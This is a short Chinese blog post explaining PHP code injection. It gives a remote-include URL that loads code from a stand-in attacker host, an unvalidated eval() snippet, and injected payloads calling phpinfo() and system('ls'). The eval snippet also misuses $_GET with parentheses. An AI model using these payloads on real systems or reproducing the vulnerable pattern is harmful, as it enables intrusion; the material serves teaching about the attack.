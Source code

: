 ```yaml
---
layout: post
title: 代码注入攻击
---
```


代码注入攻击(code injection attack)通常是指在应用程序中注入要执行的代码片段。这种类型的攻击利用目标程序没有对不信任的数据进行验证，通常因为缺少对输入输出数据的验证。

代码注入攻击和[命令注入攻击](http://topspeedsnail.com/hack-command-injection-attack/)类似，不同点是，代码注入攻击要实现的功能限制在注入的语言本身。如果攻击者成功注入了PHP代码，那么攻击者只能做PHP可以做的事。命令注入可以利用已有的命令，通常受shell限制。

### 示例1

如果一个PHP应用需要把GET请求参数传入到PHP include()函数，并且没有做输入验证。这是很危险的，因为攻击者可以执行它的邪恶代码：

```
http://something/index.php?page=http://attacker_web/evilcode.php
```

### 示例2 

注意PHP eval()函数的使用，下面的代码没有做输入验证：

{% highlight php %}
$your_var = "your_pi";
$p = $_GET('pi');
eval("\$your_var = \$p;");
{% endhighlight %}

正常使用：

```
/index.php?pi=3.14
```

代码注入攻击：

```
/index.php?pi=3.14; phpinfo()

/index.php?pi=3.14; system('ls')
```

[黑客常用攻击方式汇总](http://topspeedsnail.com/hacker-attack-method/)